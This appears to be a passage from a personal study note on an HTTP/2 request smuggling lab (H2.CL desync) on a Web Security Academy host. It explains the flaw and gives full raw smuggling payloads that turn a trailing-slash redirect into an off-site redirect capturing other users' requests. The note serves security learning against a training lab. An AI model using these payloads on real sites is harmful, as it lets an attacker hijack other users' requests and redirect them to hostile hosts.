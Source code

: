 ```http
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```

Try sending it with the normal request. If a 404 comes back, it confirms the vulnerability. 

>[!danger] 200 OK
>If a 200 OK response comes back, it indicates the victim user is navigating the page at the same time as us and their GET request is appended to the prefix before you send the normal request.

This works because the HTTP/2 RFC states it is not necessary to include a CL header since it is derived from the built-in mechanism but it also states you are allowed to set one as long as it is correct and matches the length from the mechanism.

The issue is not all front-end implementations check that it is correct and some simply trust the value set and pass it to the back-end server. To exploit it, try finding an on-site redirect and turn it into an off-site redirect.

One way is by excluding the terminating slash within a folder as some servers do a 302 redirect if you omit the terminating slash and add it back in via a 302 redirect. For example, there may be a JS file requested via a GET request - try omitting the file name and going to the folder - it may return a 404.

Try also removing the last forward slash and it may perform a 302 redirect instead by adding the slash back:

![[Trailing Slash.png]]

Try altering the Host header and observing the response - it may return an invalid host error as the front-end may need a correct Host header to send it to the correct back end server. However, it can be combined with request smuggling by creating the following which changes the GET path and adds a Host header:

```http
POST / HTTP/2
Host: 0a0300bf034f940d813b582c006b0083.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
GET /resources/js HTTP/1.1
Host: example.com
X-Ignore: x
```

It may not work as a second Host header is added from the normal request. To fix it, append the normal request in the body by adding a new line with a new empty parameter and also adding the content-type and content-length.

>[!info]
>The Content-Length should be a minimum of 3 as it is two bytes `x=` and you should always add 1 byte. 

```http
POST / HTTP/2
Host: 0a0300bf034f940d813b582c006b0083.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
GET /resources/js HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```
